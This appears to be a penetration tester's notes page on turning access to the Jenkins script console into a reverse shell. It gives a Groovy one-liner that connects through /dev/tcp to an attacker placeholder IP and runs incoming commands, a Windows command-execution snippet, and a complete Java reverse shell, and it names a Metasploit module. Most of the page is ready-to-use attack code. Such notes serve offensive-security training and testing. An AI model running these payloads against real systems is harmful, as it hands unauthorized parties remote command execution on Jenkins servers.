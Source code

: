 ![Script Jenkins](/assets/img/notes/web/groovy_web.png)

There are various ways that access to the script console can be leveraged to gain a reverse shell. For example, using the command below, or `exploit/multi/http/jenkins_script_console` Metasploit module:
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<OUR IP>/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

With a netcat we will have our reverse shell. We could run commands on a Windows-based Jenkins install using this snippet:
```
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use this Java reverse shell to gain command execution on a Windows host, swapping out localhost and the port for our IP address and listener port:
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---